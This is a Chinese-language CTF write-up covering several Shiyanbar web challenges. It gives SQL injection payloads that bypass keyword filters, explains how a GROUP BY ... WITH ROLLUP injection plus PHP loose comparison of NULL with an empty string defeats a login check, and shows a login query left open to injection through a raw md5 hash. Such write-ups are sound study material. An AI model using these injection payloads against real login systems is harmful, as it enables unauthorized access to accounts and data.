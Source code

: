 ' or ''='' uni%0on sel%0ect uname fr%0om interest limit 1 offset 1 #

> [http://www.shiyanbar.com/ctf/writeup/1208](http://www.shiyanbar.com/ctf/writeup/1208)
>
> 不妨直接贴出答案我们来分析一下：
>
> ```xml
> uname=ads' || 1 group by pwd with rollup limit 1 offset 2 #&pwd=
> ```
>
> - group by pwd 是按照pwd来分组，此处是为了搭配 with rollup使用
> - with rollup 统计pwd组的信息，这里没用任何统计函数(sum,avg...)，多出的那一行的pwd列只能是NULL所以到目前取出的的数据类似这样：
>
> ```
> +-------+-------+
> | uname | pwd   |
> +-------+-------+
> | usr1  | ***** |
> | usr2  | ***** |
> | usr2  | NULL  |
> +-------+-------+
> ```
>
> - 然后是limit 1 offset 2 就是只用第三个数据。
>
> 那么最终取出的数据就是这样了
>
> ```
> +-------+-------+
> | uname | pwd   |
> +-------+-------+
> | usr2  | NULL  |
> +-------+-------+
> ```
>
> 最后看这里$key['pwd'] == $_POST['pwd']用的是 ==，根据弱类型，NULL和空字符串是相等的，这就是为何我们不给pwd穿参的原因。

以上都是网上找的，但自己是真真切切试了一节课（然而并没有试出来）。从结果来看的话这道题确实有点偏，什么order by 搭配 with rollup，什么php弱类型NULL==空之类。

找到源码审计，绕过了关键字和返回结果只为1的限制但是最后卡在了pwd上。那么问题来了，**能否或者说是如何使用说是如何使用sqlmap跑出整张表？（挖坑）**

## [what a fuck!这是什么鬼东西?](http://ctf5.shiyanbar.com/DUTCTF/1.html)

JSFuck代码，直接放到F12调试台运行就OK

关于JSFuck 的原理：[JSfuck原理解析一](https://blog.csdn.net/qq_36539075/article/details/79946099)

## [后台登录](http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php)

​	`$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";`
